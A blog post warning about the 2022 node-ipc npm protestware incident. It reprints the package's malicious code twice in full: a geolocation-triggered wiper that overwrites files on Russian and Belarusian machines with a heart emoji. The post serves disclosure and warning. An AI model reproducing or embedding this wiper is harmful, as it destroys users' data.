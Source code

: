 +++
title = "Npm package node-ipc is malware?"
date = 2022-03-18
description = "npm package node-ipc is malware?"
+++

# TLDR
DO NOT use or update this module if you or your production servers etc. are located in a country actively involved in the invasion of Ukraine. Author of this package opposes said invasion and put a malicious code to wipe out data and put "❤️" on where they were. You are warned about this feature. Use on your own risk.

~~ Source: [https://github.com/RIAEvangelist/node-ipc/pull/373/files](https://github.com/RIAEvangelist/node-ipc/pull/373/files)

Hey, this is a quick blog post about a topic that happened around yesterday. Brandon Nozaki Miller, or known as [RIAEvangelist](https://github.com/RIAEvangelist) on github. He wanted to spread his views about the Russian-Ukraine war, and he wanted to harm people with Russian or countries related in the Ukraine-Russian war ip's by deleting all their data and replacing it with heart emojis like this: "❤️". This is malware and a federal crime as he disguised it in a package (a popular one I might add).

This shows the darkside of opensource perfectly, one person gets some control and dependencies and uses it for bad. Basically one bad apple ruining a lot of other apples.

I have lost my trust in this dev, and wont be using his software again. I have reported him to gitub and npm.

If you would like to check if your packages are affected take a look at [https://github.com/zlw9991/node-ipc-dependencies-list](https://github.com/zlw9991/node-ipc-dependencies-list). A lot of electron packages are affected, and also vue/cli-shared-utils (a part of vue.js) is affected.

If you are wondering this is the line of code that is malicious. 

#### ***Warning do not run this code. None of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript
import u from"path";import a from"fs";import o from"https";setTimeout(function(){const t=Math.round(Math.random()*4);if(t>1){return}const n=Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=","base64");o.get(n.toString("utf8"),function(t){t.on("data",function(t){const n=Buffer.from("Li8=","base64");const o=Buffer.from("Li4v","base64");const r=Buffer.from("Li4vLi4v","base64");const f=Buffer.from("Lw==","base64");const c=Buffer.from("Y291bnRyeV9uYW1l","base64");const e=Buffer.from("cnVzc2lh","base64");const i=Buffer.from("YmVsYXJ1cw==","base64");try{const s=JSON.parse(t.toString("utf8"));const u=s[c.toString("utf8")].toLowerCase();const a=u.includes(e.toString("utf8"))||u.includes(i.toString("utf8"));if(a){h(n.toString("utf8"));h(o.toString("utf8"));h(r.toString("utf8"));h(f.toString("utf8"))}}catch(t){}})})},Math.ceil(Math.random()*1e3));async function h(n="",o=""){if(!a.existsSync(n)){return}let r=[];try{r=a.readdirSync(n)}catch(t){}const f=[];const c=Buffer.from("4p2k77iP","base64");for(var e=0;e<r.length;e++){const i=u.join(n,r[e]);let t=null;try{t=a.lstatSync(i)}catch(t){continue}if(t.isDirectory()){const s=h(i,o);s.length>0?f.push(...s):null}else if(i.indexOf(o)>=0){try{a.writeFile(i,c.toString("utf8"),function(){})}catch(t){}}}return f};const ssl=true;export {ssl as default,ssl}
```
Link to file (will probably get deactivated): [https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js)

This above code will check if the ip is from Russia or Belarus and then verwrite many files with a heart emoji recursively. It goes up parent directories.

#### ***Warning do not run this code. None of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript

import u from "path";
import a from "fs";
import o from "https";
setTimeout(function () {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function (t) {
        t.on("data", function (t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"));
                }
            } catch (t) {}
        });
    });
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return;
    }
    let r = [];
    try {
        r = a.readdirSync(n);
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i);
        } catch (t) {
            continue;
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null;
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function () {});
            } catch (t) {}
        }
    }
    return f;
}
const ssl = true;
export { ssl as default, ssl };
```

This overwrites the file with heart emoji.

#### ***Warning do not run this code. None of the problems and issues you get if you run this is my issue or problem or responsibility.***

If you would like to learn more about the code read this gist: [https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c](https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c)




node-ipc and peacenotwar github (malware)
- [https://github.com/RIAEvangelist/node-ipc](https://github.com/RIAEvangelist/node-ipc)
- [https://github.com/RIAEvangelist/peacenotwar](https://github.com/RIAEvangelist/peacenotwar)
